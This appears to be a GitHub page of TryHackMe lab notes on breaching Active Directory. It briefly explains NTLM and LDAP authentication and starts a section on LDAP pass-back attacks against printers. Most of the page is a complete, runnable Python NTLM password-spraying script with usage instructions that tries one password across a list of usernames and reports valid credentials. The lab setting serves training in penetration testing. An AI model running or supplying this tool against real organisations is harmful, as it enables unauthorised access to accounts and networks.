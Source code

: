 # Compromising Active Directory

# Breaching Active Directory
## NTLM and NetNTLM
New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.   
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/e39c9f95-dbec-484c-a3f2-6cd244c93fdd" width=600>

### Brute-force Login Attacks  
**Password Spraying**  
<details>
<summary>ntlm_passwordspray.py</summary>  

```
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
        opts, args = getopt.getopt(argv, "hu:f:p:a:", ["userfile=", "fqdn=", "password=", "attackurl="])
    except getopt.GetoptError:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)

    for opt, arg in opts:
        if opt == '-h':
            print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
            sys.exit()
        elif opt in ("-u", "--userfile"):
            userfile = str(arg)
        elif opt in ("-f", "--fqdn"):
            fqdn = str(arg)
        elif opt in ("-p", "--password"):
            password = str(arg)
        elif opt in ("-a", "--attackurl"):
            attackurl = str(arg)

    if (len(userfile) > 0 and len(fqdn) > 0 and len(password) > 0 and len(attackurl) > 0):
        #Start attack
        sprayer = NTLMSprayer(fqdn)
        sprayer.load_users(userfile)
        sprayer.password_spray(password, attackurl)
        sys.exit()
    else:
        print ("ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>")
        sys.exit(2)



if __name__ == "__main__":
    main(sys.argv[1:])
```

</details>  

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>  
# <userfile> - Textfile containing our usernames - "usernames.txt"
# <fqdn> - Fully qualified domain name associated with the organisation that we # are attacking - "za.tryhackme.com"
# <password> - The password we want to use for our spraying attack - "Changeme123"
# <attackurl> - The URL of the application that supports Windows Authentication - "http://ntlmauth.za.tryhackme.com"
```

## LDAP
Another method of AD authentication that applications can use is Lightweight Directory Access Protocol (LDAP) authentication. With LDAP authentication, the application directly verifies the user's credentials.  
<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/a241a94c-c3d2-446b-b43f-c8330fcc6e25" width=800>  

### LDAP Pass-back Attacks
This is a common attack against network devices, such as printers, when you have gained initial access to the internal network, such as plugging in a rogue device in a boardroom.  
